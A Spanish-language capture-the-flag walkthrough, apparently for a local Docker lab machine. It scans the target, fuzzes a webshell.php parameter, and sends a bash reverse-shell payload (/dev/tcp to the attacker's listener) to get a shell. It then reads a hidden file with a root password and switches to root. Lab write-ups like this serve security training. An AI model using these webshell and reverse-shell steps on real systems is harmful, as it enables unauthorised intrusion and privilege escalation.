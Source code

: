 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh whereismywebshell.tar
```

![Pasted image 20250203115206](https://github.com/user-attachments/assets/9c6eaaac-a72b-47f7-8406-a45e2625ecf4)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250203115243](https://github.com/user-attachments/assets/dfa24c9e-e785-474e-af18-5322096f3452)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250203115736](https://github.com/user-attachments/assets/3eaf1ec9-3545-4233-adc9-5e954bef1ba5)

Nos metemos en la web:

![Pasted image 20250203115320](https://github.com/user-attachments/assets/3ad8dce8-6fb9-4300-82b6-1c7e792fe85a)

![Pasted image 20250203115634](https://github.com/user-attachments/assets/dde19939-e2cb-406f-b6c6-d47660692127)

![Pasted image 20250203115841](https://github.com/user-attachments/assets/7e2350fb-a96e-4556-b373-4e108bf98e10)

```Bash
wfuzz -c --hc 404,500 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u 172.17.0.2/shell.php?FUZZ=whoami
```

![Pasted image 20250203123746](https://github.com/user-attachments/assets/509fd3c9-eaac-4a4d-8b97-2b6b9b41166a)

```Bash
nc -lnvp 443
```

![Pasted image 20250203122043](https://github.com/user-attachments/assets/fa2bfc42-3824-481f-89c0-821980a37824)

```Bash
?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![Pasted image 20250203120803](https://github.com/user-attachments/assets/fe4479de-c794-4da5-9a71-7d6ec6abcdca)

```Bash
nc -lnvp 443
```

![Pasted image 20250203120933](https://github.com/user-attachments/assets/c1de3e3b-cd78-4932-9f46-23ca6e357052)

```Bash
cd /tmp
```

![Pasted image 20250203121242](https://github.com/user-attachments/assets/994cb9e1-a942-4bfa-9609-93cae6591482)

```Bash
ls -la
```

![Pasted image 20250203121701](https://github.com/user-attachments/assets/17451778-fbeb-4a10-9006-6a927c4ad858)

```Bash
cat .secret.txt
```

![Pasted image 20250203121725](https://github.com/user-attachments/assets/9661edf7-9e9a-4a53-95b8-b24b5272a2ab)

root: contraseñaderoot123

```Bash
su root
```

![Pasted image 20250203121855](https://github.com/user-attachments/assets/a980b47f-8c44-43b5-9a12-e50faf874227)

```Bash
/bin/bash -i
```

![Pasted image 20250203121928](https://github.com/user-attachments/assets/2850175b-970e-4dec-a9bb-71403acd16ad)

```Bash
whoami
```

![Pasted image 20250203121942](https://github.com/user-attachments/assets/7322e711-e69a-41c7-90ca-8ee66f665819)
